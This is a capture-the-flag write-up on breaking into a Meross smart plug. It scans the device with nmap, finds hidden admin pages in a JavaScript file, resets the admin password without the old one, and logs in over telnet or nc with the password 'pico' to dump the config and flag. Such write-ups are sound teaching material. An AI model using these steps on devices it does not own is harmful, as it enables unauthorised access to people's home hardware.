



# Connect to the wifi

Connect to the `Meross_SW_7553` wifi

You should get an IP address like `10.10.10.*`

# Find the smart plug

Then, you need to find the IP address of the smart plug.

```
$ sudo nmap 10.10.10.*
Starting Nmap 7.01 ( https://nmap.org ) at 2018-11-29 10:17 CET
Nmap scan report for 10.10.10.1
Host is up (0.017s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
23/tcp open  telnet
80/tcp open  http
MAC Address: 00:0C:43:E1:76:29 (Ralink Technology)
...

```

You find one host on `10.10.10.1` with 2 open ports:

- telnet (23)
- http (80)

We go to http://10.10.10.1 which redirects to a dummy page.



# Find the admin page

Inspecting `http://10.10.10.1` page source shows there is a JavaScript `spec.js`.

```html
<html>
<head>
<SCRIPT	language=JavaScript	src=utils.js></SCRIPT>
<SCRIPT	language=JavaScript	src=spec.js></SCRIPT>
<SCRIPT	language=JavaScript>


addCfg('opmode',0x01140100,'1');


var __opmode = 1*getCfg("opmode");

if (__opmode == 3)
	location='lan.htm';
else
	location='wz.htm';
</script>
</head>
</html>
```

We get that file `wget http://10.10.10.1/spec.js`, several URLs are listed.

```
$ grep htm spec.js 
new Page(0,'opmode','opmode.htm','OpMode'),
new Page(0,'wz','wz.htm','Wizard')
,new Page(0,'wan','wan.htm','WAN')
,new Page(0,'wan','wan_fixed.htm','WAN',1)
,new Page(0,'wan','wan_dhcp.htm','WAN',1)
,new Page(0,'wan','wan_pppoe.htm','WAN',1)
,new Page(0,'lan','lan.htm','LAN')
,new Page(0,'dhcp','dhcp.htm','DHCP')
,new Page(0,'wlan','status.html','Wireless')
...
,new Page(2,'admin','admin.htm', 'Admin')
,new Page(2,'time','time.htm','Time')
,new Page(2,'config','config.htm', 'System')
,new Page(2,'firmware','firmware.htm','Firmware')
...
```

Among those:

- admin.htm
- firmware.htm

Both pages will redirect the participant to a small website for the smart plug.

The admin page allows to reset the admin password.
You can reset it to anything you like **without knowing the previous password!!**




## Telnet

Then, you need to telnet on the smart plug:

```
$ telnet 10.10.10.1
Trying 10.10.10.1...
Connected to 10.10.10.1.
Escape character is '^]'.
Login as:admin^M^?
```

With telnet, there is a CR LF issue. This can be solved with a `toggle crlf` - but it is actually simpler to use nc.

```
$ telnet
telnet> toggle crlf
Will send carriage returns as telnet <CR><LF>.
telnet> open 10.10.10.1
Trying 10.10.10.1...
Connected to 10.10.10.1.
Escape character is '^]'.
Login as:admin^MPassword:pico^MCFG>ls^Mget         set         del         prof 
```

With nc, it works nicely:

```
$ nc 10.10.10.1 23
Login as:admin
Password:pico
CMD>cd
cfg         net         os          mft         meross      
CMD>cd cfg
CFG>ls
get         set         del         prof        
CFG>prof
Usuage:   prof <init|save|commit|show>
Arguments:
	init    reset factory default.
	save    save config to flash.
	commit  save config to flash and notify monitor thread.
	show    list all availble config.
```

We get a shell, navigate in the directories. Go in `cfg` and then try `prof` to show the configuration. Usage suggest we use `prof show`:

```
CFG>prof show
#PROFILE
#VER_2_1
SYS_ADMPASS=pico
SYS_DAYLITE=0
SYS_DOMAIN=Meross
SYS_IDLET=0
SYS_NAME=ph0wn{kahZoo0w}
SYS_RM_EN=1
SYS_RM_IP=0.0.0.0
SYS_RM_PORT=80
SYS_TZONE=45
SYS_USERS=admin
```

The flag is `ph0wn{kahZoo0w}`